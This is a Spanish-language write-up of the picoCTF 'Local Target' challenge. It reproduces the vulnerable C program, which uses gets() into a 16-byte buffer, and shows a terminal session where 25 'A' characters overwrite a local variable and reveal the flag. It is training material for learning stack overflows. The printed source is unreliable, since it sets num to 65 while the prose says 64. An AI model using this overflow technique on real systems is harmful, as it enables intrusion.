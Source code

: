 
# Local Target

## Descripción
Smash the stackCan you overflow the buffer and modify the other local variable? The program is available [here](https://artifacts.picoctf.net/c/517/local-target). You can view source [here](https://artifacts.picoctf.net/c/517/local-target.c). And connect with it using:`nc saturn.picoctf.net 57408`
## Pistas
1. Do anything you can to change `num`.
2. When you change `num`, view the value as hexadecimal.
## Solucion
La pista es que tenemos que cambiar el valor de num. Se nos da un codigo binario y uno fuente:
```python
#include <stdio.h>
#include <stdlib.h>



int main(){
  FILE *fptr;
  char c;

  char input[16];
  int num = 65;
  
  printf("Enter a string: ");
  fflush(stdout);
  gets(input);
  printf("\n");
  
  printf("num is %d\n", num);
  fflush(stdout);
  
  if( num == 65 ){
    printf("You win!\n");
    fflush(stdout);
    // Open file
    fptr = fopen("flag.txt", "r");
    if (fptr == NULL)
    {
        printf("Cannot open file.\n");
        fflush(stdout);
        exit(0);
    }

    // Read contents from file
    c = fgetc(fptr);
    while (c != EOF)
    {
        printf ("%c", c);
        c = fgetc(fptr);
    }
    fflush(stdout);

    printf("\n");
    fflush(stdout);
    fclose(fptr);
    exit(0);
  }
  
  printf("Bye!\n");
  fflush(stdout);
}

```
En el codigo vemos que esta buscando que la variable num sea igual a 65 pero por defaul es igual a 64.
Al correr el codigo nos pide un string el cual lo convierte en un char. esto se consigue con un gets() el cual puede ser desbordado. 

Al desbordarlo me di cuenta que el limite estaba masomenos entre 20-40. segui intentando hasta hallar que el error de segmentacion estaba exactamente en el 25. entonces al saber esto le inyecte 25 caracteres de tipo a. lo cual cambio el num al 97. lo cual es codigo ascii para la letra a. Ocupabamos que el num fuera de valor 65 entonces busque el valor de 65 en el ASCII lo cual me dio la letra 'A'. le inyecte 25 A y me dio la bandera. 
```bash()
┌──(kali㉿kali)-[~]
└─$ nc saturn.picoctf.net 52661        
Enter a string: AAAAAAAAAAAAAAAAAAAAAAAAA

num is 65
You win!
picoCTF{l0c4l5_1n_5c0p3_fee8ef05}
```
## Bandera

picoCTF{l0c4l5_1n_5c0p3_fee8ef05}

## Notas adicionales

| comando | descripcion |
| --- | --- |

## Referencias
